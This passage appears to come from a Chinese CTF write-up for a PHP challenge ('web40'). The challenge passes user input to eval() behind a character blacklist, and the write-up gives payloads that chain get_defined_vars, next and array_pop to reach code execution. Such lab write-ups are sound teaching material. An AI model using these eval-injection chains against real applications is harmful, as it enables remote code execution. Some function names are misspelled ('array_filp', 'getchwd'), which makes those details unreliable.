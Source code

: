 前面的php语句已经闭合，所以后面的`.php`会被当作html输出到页面

![image-20231021223406535](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20231021223406535.png)

### web40

```php
<?php
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $c)){
        eval($c);
    }
}else{
    highlight_file(__FILE__);
}
```

```
get_defined_vars()返回一个包含所有已定义变量的多维数组。这些变量包括环境变量、服务器变量和用户定义的变量
next()将内部指针指向数组中的下一个元素，并输出。
array_pop()函数删除数组中的最后一个元素并返回其值
array_flip()函数用于反转/交换数组中所有的键名以及它们关联的键值
array_rand()函数返回数组中的随机键名，或者如果您规定函数返回不只一个键名，则返回包含随机键名的数组
getchwd() 函数返回当前工作目录。
scandir() 函数返回指定目录中的文件和目录的数组。
dirname() 函数返回路径中的目录部分。
chdir() 函数改变当前的目录。
readfile() 输出一个文件。
current() 返回数组中的当前单元, 默认取第一个值。
pos() current() 的别名。
next() 函数将内部指针指向数组中的下一个元素，并输出。
end() 将内部指针指向数组中的最后一个元素，并输出。
array_rand() 函数返回数组中的随机键名，或者如果您规定函数返回不只一个键名，则返回包含随机键名的数组。
array_flip() array_flip() 函数用于反转/交换数组中所有的键名以及它们关联的键值。
array_slice() 函数在数组中根据条件取出一段值，并返回。
array_reverse() 函数返回翻转顺序的数组。
chr() 函数从指定的 ASCII 值返回字符。
hex2bin() — 转换十六进制字符串为二进制字符串。
getenv() 获取一个环境变量的值(在7.1之后可以不给予参数)。
localeconv() 函数返回一包含本地数字及货币格式信息的数组。
```

这个题他过滤的是中文括号不是英文的括号，我们可以利用函数进行执行命令

payload：

```
eval(array_rand(array_filp(next(get_defined_vars()))));
//可以用print_r打印出，返回的命令
print_r(array_pop(next(get_defined_vars())));
eval(array_pop(next(get_defined_vars())));
```
